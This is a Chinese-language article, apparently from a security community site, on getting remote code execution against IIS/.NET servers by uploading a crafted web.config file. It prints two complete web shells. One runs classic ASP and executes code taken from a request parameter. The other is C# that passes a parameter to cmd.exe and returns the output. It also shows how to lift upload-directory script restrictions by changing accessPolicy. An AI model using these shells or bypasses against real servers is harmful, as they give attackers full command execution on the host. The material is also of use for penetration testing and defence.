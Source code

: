 

# .NET 上传web.config文件实现RCE思路 - 先知社区

.NET 上传web.config文件实现RCE思路

- - -

# 0x01 作为ASP脚本运行

当某些运行.NET环境的IIS容器也支持托管 ASP 脚本时，有的场景可能会遇到无法直接上传扩展名为 .ASP 的文件，在这种情况下可以通过上传定制化的 web.config文件来运行经典 ASP 脚本代码。0x01 作为ASP脚本运行

```plain
<system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
<!--
<%
Response.write("-"&"->")
Response.write(1+2)
on error resume next
if execute(request("dotnet")) <>"" then execute(request("dotnet"))
Response.write("<!-"&"-")
%>
-->
```

访问 /web.config?dotnet=response.write(now())，页面返回当前日期信息，证明脚本运行成功。如下图所示

[![](assets/1705981862-f6f271ebf17898f995b301505ee42e94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111042-fe4a85cc-b99c-1.png)

# 0x02 作为.NETT脚本运行

当Internet Information Service服务器不支持ASP脚本，仅支持.NET运行环境时，有些漏洞场景可能会遇到无法上传ashx、aspx、asmx、soap等扩展名时，可以尝试通过上传定制化的 web.config文件来运行.NET代码

```plain
<system.web>
    <compilation defaultLanguage="cs">
      <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />
      </buildProviders>
    </compilation>
    <httpHandlers>
      <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
    </httpHandlers>
  </system.web>
  if (flag){
   System.Diagnostics.Process process = new System.Diagnostics.Process();
process.StartInfo.FileName = "cmd.exe";
  string str = httpContext.Request["c"];
  process.StartInfo.Arguments = "/c " + str;
  process.StartInfo.RedirectStandardOutput = true;
  process.StartInfo.RedirectStandardError = true;
  process.StartInfo.UseShellExecute = false;
  process.Start();
  string str2 = process.StandardOutput.ReadToEnd();
  httpContext.Response.Write("<pre>" + str2 + "</pre>");
  httpContext.Response.Flush();
  httpContext.Response.End();
}
```

访问 /web.config，传入参数c=tasklist，页面返回当前所有的系统进程，脚本运行成功。如下图所示

[![](assets/1705981862-a0e2908af0e5941822c4c79bea8d8b16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111054-053ffd76-b99d-1.png)

# 0x03 绕过策略限制

web.config文件可用于配置IIS服务器的运行行为，实战中某些上传目录被管理员设定为禁止运行脚本，并且只提供读取操作，不具备修改和写入权限，比如对uploads目录下的web.config文件配置如下清单

```plain
<system.webServer>
    <handlers accessPolicy="Read,Write">
    </handlers>
</system.webServer>
```

请求/uploads/Shell2asmx.soap如下图所示

[![](assets/1705981862-6d8faeb168fb459f9fd86abfa4511644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111101-0988098c-b99d-1.png)

但此时修改accessPolicy策略，添加写入、执行、运行脚本权限。即accessPolicy="Read,Write,Execute,Script"，再向uploads目录下上传新配置的这个web.config，如下图所示

[![](assets/1705981862-ba7648edbe25a583bce4e31ec0c1a532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111107-0cf90fe4-b99d-1.png)
